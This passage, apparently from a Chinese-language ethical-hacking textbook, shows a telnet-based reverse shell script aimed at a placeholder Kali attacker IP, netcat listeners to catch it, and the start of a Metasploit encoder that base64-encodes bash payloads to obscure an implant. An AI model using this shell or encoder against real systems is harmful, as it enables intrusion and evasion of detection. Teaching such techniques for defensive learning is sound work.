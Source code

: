 ```
#!/bin/sh
echo ("Establishing Reverse Shell")
telnet <Kali IP address> 80 | sh | telnet <KALI-IP> 443
```

使用 netcat（`nc`）工具在不同的终端中创建两个 TCP 服务器：

```
kali@kali:~$ nc -lv 80
kali@kali:~$ nc -lv 443
```

#### ***编写一个 Metasploit 模块***

让我们编写一个 Metasploit 模块，用于对植入物进行 base64 编码。Metasploit 模块是用 Ruby 编程语言编写的。别担心，Ruby 看起来很像 Python，所以你很容易上手。而且，Metasploit 框架是开源的，你可以通过访问 *[`github.com/rapid7/metasploit-framework/blob/master/modules/encoders/cmd/powershell_base64.rb`](https://github.com/rapid7/metasploit-framework/blob/master/modules/encoders/cmd/powershell_base64.rb)* 来查看 *cmd/powershell_base64* 编码器。这个编码器用于对 Windows 机器的 PowerShell 脚本进行编码。

在我们开始编写自己的版本以对 Linux 机器的 Bash 脚本进行编码之前，花点时间查看 *powershell_base64* 编码器。在你的 *Malware* 文件夹中创建一个名为 *Encoders* 的新文件夹，然后在 *Encoders* 文件夹中创建一个名为 *bash_base64.rb* 的新文件。我们将在这个文件中实现我们的 base64 编码器，因此请复制以下内容：

```
class MetasploitModule < Msf::Encoder

 ➊ Rank = NormalRanking

   def initialize

    ➋ super(

        'Name'             => 'Bash Base64 Encoder',

        'Description'      => %q{

          Base64 encodes bash scripts.

        },

        'Author'           => 'An Ethical Hacker',

       )

    end

  ➌ def encode_block(state, buf)

         unicode = Rex::Text.to_unicode(buf)

         base64 = Rex::Text.encode_base64(unicode)

         cmd = "base64 -d <<< #{base64} | sh"

         return cmd

    end
```

